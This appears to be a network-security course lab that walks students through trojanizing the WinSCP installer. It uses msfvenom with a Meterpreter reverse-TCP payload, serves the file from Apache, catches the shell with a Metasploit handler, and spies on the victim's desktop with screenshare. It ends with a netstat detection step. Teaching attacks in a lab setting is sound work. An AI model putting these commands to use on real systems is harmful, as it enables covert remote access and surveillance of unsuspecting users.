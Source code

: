 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Backdoor a Program

## Backdoor Programs

[Video Demonstration](https://youtu.be/C1A2Li2\_H-Q)

### Objective

Download a legitimate program and add a backdoor to obtain remote access to a victim computer.

### Discussion

This type of attack is how threat actors gain access to remote computers of users behind restrictive firewalls. Port 80, 8080, 443, etc. are usually allowed outbound to the internet. In many organizations, any port is allowed outbound. A threat actor can send an email attachment that contains a backdoor and work the way you will see it in this lab.

Also, when users download arbitrary programs from the internet, they could inadvertently inject malicious code into a computer that impacts the organization. Similarly, if a threat actor can gain access to a reputable website and their downloads, they could also inject a backdoor into the legit program and when someone downloads and executes it, it could allow threat actors to gain access into the organization. There have been many cases of this occurring. The most high-profile attack of this type was the Solarwinds attack. Threat actors gained access to the development environment of the Solarwinds source code. They injected a backdoor that was undetected for a significant amount of time. Solarwinds products are used by private industry, state and federal governments. The tool that was compromised is used to monitor network activity on a network such as computers which are up and running, the services running on the host, and other essential network functions. You can imagine the problem with this type of attack. The tool used to monitor networks was compromised and used in the healthcare, financial, military, federal, and state government levels. The attack allowed unrestricted access to computers because the Solarwinds monitoring tool is allowed unrestricted access to virtually every computer and device on a network.

Solarwinds attack: [https://www.npr.org/2021/04/16/985439655/a-worst-nightmare-cyberattack-the-untold-story-of-the-solarwinds-hack](https://www.npr.org/2021/04/16/985439655/a-worst-nightmare-cyberattack-the-untold-story-of-the-solarwinds-hack)

### Preparation

1. Ensure Alice’s Windows 7 system is on her _LAN_ segment.
2. Eve, put your Kali network adapter on the NETSEC-WAN segment.
3. Alice and Eve, make a note of Eve’s IP address.
4. Eve, download the original version of WinSCP to your Kali workstation: [https://tinyurl.com/2nvuxe7m](https://tinyurl.com/2nvuxe7m) (**PAY ATTENTION TO THE FOLDER WHERE IT IS DOWNLOADED**)
   1. NOTE: [WinSCP ](https://winscp.net/eng/index.php)is a legit program used to transfer files over a secure connection between computers.

### Start the Lab

Eve, open a terminal on Kali. The default location to download a file will be “Downloads” and this tutorial assumes that location. Run the commands below (Replace X.X.X.X with the IP of your Kali workstation):

**cd \~/Downloads**

**ls**

Be sure you see the “WinSCP.exe” file before continuing.

**msfvenom -x WinSCP.exe -p windows/meterpreter/reverse\_tcp LHOST=X.X.X.X LPORT=8080 -f exe -o WinSCP-3.8.5.exe**

The above command may take a few minutes to run and generate the payload. The program \*\*msfvenom \*\*is a game changer in the world of hacking. It makes it very easy to create backdoor programs. It used to take a lot of steps and programming skills to create a backdoor program. In this lab, we are backdooring a legit program, though \*\*msfvenom \*\*can create its own backdoor.

After the file has been created, copy the file to the web server root directory on your Kali workstation.

**sudo cp WinSCP-3.8.5.exe /var/www/html**

Then start the web server:

**sudo service apache2 start**

Then check to be sure the web server is running:

**sudo service apache2 status**

Apache is a very popular web server. A web server serves web pages and other interactive content. Anytime you use your web browser to access a site, it is running on a web server.

**Common job interview question is what port does a web server run on and, by default, it is port 80.**

### Start Metasploit.

Eve, run the following commands to start the “Listener” (this is the same as the[ reverse shell lab ](https://docs.google.com/document/d/0B0smSYOArSbNZGFQUUtxa3BLWlE/edit?usp=sharing\&ouid=117998309226657164937\&resourcekey=0-ZN0HmGtCZ71EQSIW0TforA\&rtpof=true\&sd=true)where Eve controlled her own server and ran ncat and waited for Alice to connect to it from behind the firewall). Replace X.X.X.X below with the IP address of your Kali workstation.

\*\*use exploit/multi/handler \*\*

\*\*set PAYLOAD windows/meterpreter/reverse\_tcp \*\*

**set LHOST X.X.X.X**

**set LPORT 8080**

**exploit**

The above command will listen on port 8080 for connections and it will connect to Eve’s machine (your Kali workstation). Review the reverse shell lab if necessary. In the msfvenom command above, you took a legitimate program and wrapped a program around it that will push your Kali attacking machine a shell from the victim (your Windows 7 system). It works just like the[ reverse shell lab](https://docs.google.com/document/d/0B0smSYOArSbNZGFQUUtxa3BLWlE/edit?usp=sharing\&ouid=117998309226657164937\&resourcekey=0-ZN0HmGtCZ71EQSIW0TforA\&rtpof=true\&sd=true) when eve uses ncat to start a listener and Alice connections from behind the firewall.

```
REFERENCE ONLY  This is not required for this lab.

If you are an attacker (or pen tester) and you have multiple targets, you can save the above commands to a file and run:

msconsole -q -r file1.rc
msconsole -q -r file2.rc
msconsole -q -r file3.rc

And wait for one of the victims to connect to the Metasploit session.
```

### Download the Backdoored program

Alice, open internet explorer and browse to Eve’s IP address:

**http://X.X.X.X/WinSCP-3.8.5.exe**

PAY ATTENTION TO WHERE IT DOWNLOADED.

When the file has downloaded, double-click on it and open it You will see the WinSCP default screen.

Alice and Eve, look at Eve’s Metasploit session. You will see that the WinSCP program connected to Eve’s listening service. **Also, note that the WinSCP still works as normal.**

### Back to Eve’s Metasploit session

Now that you have access to the victim system, you are in a meterpreter shell. Meterpreter is a memory resident program so when the machine reboots, it will not have any traces on the victim’s computer. Meterpreter has many functions that allow dumping passwords, listing running processes, enabling camera, sound, etc. Type the command:

**screenshare**

You may get a popup to create a password for a keyring, you can “Cancel” those windows. The web browser on your Kali workstation will open and show the desktop of the victim machine.

Now have your partner open programs on their Windows 7 system and watch their activity from your Kali workstation.

### Detecting the attack

Alice, since you know Eve’s IP address, open a command prompt on your Windows 7 system. Run the command:\
\
**netstat -an**

See if you can detect the connection to Eve’s computer on port 8080. The command netstat is used to list **net**work **stat**istics. One feature is to list all open ports and connected IPs.

## Switch roles.
